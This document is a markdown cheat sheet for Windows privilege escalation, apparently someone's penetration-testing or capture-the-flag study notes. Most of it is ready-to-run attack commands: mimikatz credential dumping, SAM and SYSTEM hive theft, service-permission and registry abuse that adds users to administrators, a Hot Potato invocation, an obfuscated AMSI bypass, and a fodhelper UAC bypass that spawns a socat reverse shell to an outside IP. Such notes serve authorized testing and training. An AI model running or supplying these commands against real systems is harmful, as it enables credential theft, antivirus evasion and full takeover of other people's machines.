 #### checklist
- [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [jaws](https://github.com/411Hall/JAWS)
- bloodhound - AD env
- PowerView
- PowerUp
- mimikatz
- [GhostPacks](https://github.com/GhostPack)
- [GhostPacks-compiled](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
- [Wadcom](https://wadcoms.github.io/) Cheat sheet for windows offensive tools
```
- use enumeration tools
- remember to use **netcat** for reverse shells!
- check users in local machine and domain
- check groups in local machine and domain
- check current user groups
- check current user permissions --- what?
- check config files 
- check log files
- check Unattended files
- check powershell history
- check if AV enabled
- Unquoted Service Paths
- Insecure Permissions on Service Executable
- Insecure Service Permissions
- Unpatched Software
- Weak Registry permissions
- writable StartUp Folders
- Windows AutoLogon credentails
```

- exploiting privileges [show me your privs, and I will lead you to system](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)
- kernel exploits: https://github.com/ASR511-OO7/windows-kernel-exploits
- offsec exploits db: https://github.com/offensive-security/exploitdb-bin-sploits
- AD cheatsheet : https://wadcoms.github.io/
- sweet potato rule all [potato exploits](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 

- Windows DLLs search order
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

No.5 becomes No.2 when safe DLL search mode is disabled
```
- command to-go list
```powershell
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember adminteam
systeminfo
ipconfig /all
route print
netstat -nao
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-Process
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\users -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
runas /user:backupadmin cmd
cat C:/xampp/mysql/bin/mysql.ini
Get-History
(Get-PSReadlineOption).HistorySavePath
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
# windows creds object & winrm from powershell 
$password = ConvertTo-SecureString "password123!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
## show unquoted services 
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
# show scheduleds
Get-ScheduledTask
schtasks /query
```

- mimikatz
```powershell
privilege::debug
sekurlsa::logonPasswords full
sekurlsa::wdigest
lsadump::sam
lsadump::secrets
lsadump::cache
sekurlsa::dpapi

```

### Unattended Windows Installations
```
# credentails such as <Password>
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
### IIS config path
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
### powershell & cmd
```powershell
# secrets dump SAM SYSTEM
secretsdump.py -sam sam -system system local
# putty proxy credentails 
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
# copy system/sam files
reg save HKLM\SAM C:\sam
reg save HKLM\SYSTEM C:\system
# read encrypted file 
$ss = Import-CliXml -Path user.txt
$ss.GetNetworkCredential().Password # password is property to read
# find db connections in IIS config file
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

# winlogon logged users credentials
reg query "HKLM\SOFTWARE\microsoft\windows nt\currentversion\winlogon"
# saved windows credentails| if creds exist can be used with runas
cmdkey /list 

# AutoRuns - check permisisons  | run on user login
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
# read saved powershell history
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

# run cmd as another user
runas /savecred /user:mike cmd.exe

# scheduled tasks
schtasks /query /tn vulntask /fo list /v

# find unquoted services
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """

# ----exploiting----- 
#AlwaysInstallElevated|check regs files set to 1,if exist create msi shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
msiexec /quiet /qn /i payload.msi
# if nt/INTERACTIVE has full perms use exploit to run c code as localSystem
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
sc start regsvc
#confirm exploitation
net localgroup administrators
# filepermservice.exe service 
accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
sc start filepermsvc
# abuse startup files at login
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# permissions using accesschk64 | SERVICE_CHANGE_CONFIG
accesschk64.exe -wuvc daclsvc
sc config daclsvc binpath= "net localgroup administrators user /add"
sc start daclsvc
# Hot Potato exploit
Import-Module Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"

```
- powershell
```powershell
# download files
Invoke-WebRequest -URI $URL -OutFile $Path
#
(New-Object System.Net.WebClient).DownloadFile($URL, $Path)
(New-Object System.Net.WebClient).DownloadString($URL)
#
Start-BitsTransfer -Source $URL -Destination $Path
# 
certutil.exe -urlcache -split -f $URL $Path
# find file
Get-ChildItem -Path . -Recurse -Include flag
#bypass execution policy
powershell.exe -nop -ep bypass
# start a process as another user
$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -FilePath "C:\temp\shell.ps1" -Credential $cred -Computer localhost

```

- check list
```
Unquoted Service Paths
Insecure Permissions on Service Executable
Insecure Service Permissions
Unpatched Software
Weak Registry permissions
writable StartUp Folders

```
- Windows Privileges:
```
SeBackup / SeRestore
SeTakeOwnership
SeImpersonate / SeAssignPrimaryToken 

```
- tools
```
WinPEAS
PrivescCheck
WES-NG: Windows Exploit Suggester - Next Generation
Metasploit
```

- firewall and AntiVirus
```powershell

#AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

```

- UAC bypass
```powershell
# if GUI avaliable choose cmd
msfconfig.exe

# foodhelper bypass windows AV and spawn shell
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.129.32:4445 EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
fodhelper.exe
# tool
https://github.com/hfiref0x/UACME
```